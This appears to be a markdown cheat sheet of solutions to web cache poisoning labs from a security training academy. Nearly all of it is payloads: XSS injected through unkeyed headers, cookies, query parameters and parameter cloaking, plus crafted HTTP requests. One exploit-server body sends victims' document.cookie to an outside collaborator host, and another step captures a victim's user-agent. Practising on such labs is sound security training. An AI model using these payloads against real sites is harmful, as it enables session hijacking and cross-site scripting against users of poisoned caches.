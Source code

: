 # Web Cache Poisoning

## If X-Forwarded-Host and X-Cache works:

  go to the **exploit server** ->

  in "file": /recources/js/tracking.js
  in "body": document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')

![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
```
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
```
## Web cache poisoning with an unkeyed cookie:
```
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
```
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

```
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
```
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
## Web cache poisoning via an unkeyed query string
```
/?search=kek'/><script>alert(1)</script>
Origin:x
```
## Web cache poisoning via an unkeyed query parameter
`
/?utm_content=123'/><script>alert(1)</script>
`
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``

